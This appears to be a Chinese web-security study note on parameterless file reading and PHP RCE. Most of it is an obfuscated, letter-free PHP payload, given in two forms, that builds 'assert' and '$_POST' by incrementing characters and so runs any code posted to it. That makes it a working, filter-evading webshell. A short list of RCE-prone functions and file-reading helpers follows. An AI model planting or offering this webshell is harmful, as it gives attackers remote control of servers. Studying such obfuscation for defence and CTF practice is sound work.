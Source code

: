 ```php
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;
$___($_[_]); 
```

```php
<?=$_=[]?><?=$_=@"$_"?><?=$_=$_['!'=='@']?><?=$___=$_?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$____='_'?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$_=$$____?><?=
$___($_[_])?>
```

# 13.无参数读文件和RCE漏洞

### 1.与RCE相关的危险函数 

 eval()  将字符串当作php代码执行
 assert()  将字符串当作php代码执行
 preg_replace()  将字符串正则匹配后替换
 call_user_func()  回调函数
 array_map()   回调函数



使用print_r()进行输出

使用readfile()或highlight_file()读取文件

highlight_file() 函数对文件进行语法高亮显示，本函数是show_source() 的别名

next() 输出数组中的当前元素和下一个元素的值。

array_reverse() 函数以相反的元素顺序返回数组。(主要是能返回值)
